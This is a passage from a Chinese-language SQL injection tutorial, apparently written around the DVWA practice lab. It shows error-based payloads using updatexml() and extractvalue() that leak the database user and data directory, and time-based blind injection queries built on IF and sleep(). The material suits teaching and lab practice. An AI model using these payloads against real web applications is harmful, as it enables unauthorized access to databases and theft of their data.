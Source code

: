   常见的写法如下，**concat函数**返回结果为连接参数产生的字符串。如有任何一个参数为NULL ，则返回值为 NULL。

  ```sql
  1' union select updatexml(1,concat(0x7e,(SELECT user()),0x7e), 1); #
  ```

  出现报错为：`出现报错为：ERROR 1105 (HY000): XPATH syntax error: '~root@localhost~'`

  这样可以发现当前连接数据库的用户的名为：root

  其实就是**contact连接的字符串不符合语法导致爆出我们传入的参数**。

- extractvalue()：

  EXTRACTVALUE (XML_document, XPath_string); 

  - 第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 
  - 第二个参数：XPath_string (Xpath格式的字符串)

  payload：

  ```sql
  and extractvalue(null,concat(0x7e,(select @@datadir),0x7e));
  ```

  



##### 盲注

盲注就是开发人员对错误日志进行了屏蔽，我们无法通过错误日志直观的获取是否可以进行sql注入，我们需要做的就是**创造除错误日志以外的差异性变化**来判断。下面介绍几种办法。

###### 执行时间变化

先贴一片博客：[基于时间的 SQL注入研究](https://www.cnblogs.com/blacksunny/p/8056101.html)

需要用到if语句，这里做一个简单介绍：

```sql
-- expr1 表达式返回为true的话，执行expr2并返回结果，如果否则执行expr3的并返回
If(expr1,expr2,expr3)
```

先用mysql操作一下命令：

```sql
-- 判断数据库名字长度是否大于1
select * from course where Cno='1' and if (length(database())>1, sleep(5), 1); #';
-- 判断数据库名字长度实发大于10
select * from course where Cno='1' and if (length(database())>10, sleep(5), 1); #';
-- 正常操作
select * from course where Cno='1' and if (length(database())>10, sleep(5), 1); #';
```

<img src="../images/dvwa_lib/time_inject.png" style="z-index: 1; box-shadow: 2px 2px 6px 2px #aaaaaa; border-width:0px; border-radius:5px"   height="220px"/>

